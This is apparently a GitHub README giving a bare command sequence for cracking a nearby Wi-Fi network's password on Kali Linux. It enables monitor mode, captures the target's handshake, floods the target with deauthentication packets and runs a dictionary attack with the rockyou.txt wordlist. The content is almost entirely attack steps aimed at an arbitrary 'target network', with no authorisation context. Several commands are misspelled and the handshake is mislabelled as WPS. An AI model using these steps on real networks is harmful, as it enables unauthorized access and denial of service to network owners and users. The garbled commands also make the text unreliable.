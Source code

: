 # WIFI-CRACK-USING-KALI-LINUX

# NOTE:
This technique will search the password after taking WPS handshake. All commands should be run on kali linux terminal.
The rockyou.txt file contains a large amount of passwords.

#COMMANDS:

*open terminal and go to the directory*
- /usr/share/wordlists/rockyou.txt.gz

*unzip the rockyou file using command*
- gunzip rockyou.txt.gz

*open new terminal*
- if config
- airmon-ng start wlan0
- airmon-ng check kill
- airodump-ng waln0mon
*shows network around you and when you see your desired network you can stop searching using ctril+c*

- airodump-ng -w test -c *target network's channel* --bssid *target network's mac address* waln0mon

*open new terminal*
- aireplay-ng -0 0 -a *target network's mac* wlan0mon

*go to the window where you extract the rockyou file*
- airrcrack-ng -w rockyou.txt test-01.cap
